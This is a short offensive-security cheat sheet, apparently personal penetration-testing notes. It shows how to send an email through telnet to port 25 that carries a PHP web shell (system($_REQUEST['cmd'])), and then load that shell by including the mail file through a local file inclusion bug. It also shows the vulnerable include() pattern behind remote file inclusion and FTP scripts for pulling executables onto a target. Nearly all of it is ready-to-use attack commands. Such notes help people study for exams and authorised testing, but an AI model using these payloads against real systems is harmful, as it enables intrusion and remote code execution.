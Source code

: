 ### Mail log
```
telnet <IP> 25  
EHLO <random character>  

VRFY <user>@localhost  

mail from:attacker@attack.com  
rcpt to: <user>@localhost  
data  

Subject: title  
<?php echo system($_REQUEST['cmd']); ?>  

<end with .>  

LFI /var/mail/<user>  
```
### Remote File Inclusion
These two setting must be enabled to let RLI happens
requires allow_url_fopen=On and allow_url_include=On  
```php
$incfile = $_REQUEST["file"];  
include($incfile.".php");  
```

## File Transfer

[15 Ways to transfer a file](https://blog.netspi.com/15-ways-to-download-a-file/#perl)

### FTP

```
/etc/init.d/pure-ftpd restart
```

Windows

```
echo "open <IP>">ftp.txt  
echo "offsec">>ftp.txt  
echo "offsec">>ftp.txt  
echo "bin">>ftp.txt  
echo "get file.exe">>ftp.txt  
echo "bye">>ftp.txt  

ftp -s ftp.txt  
```

Linux

```
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux
```
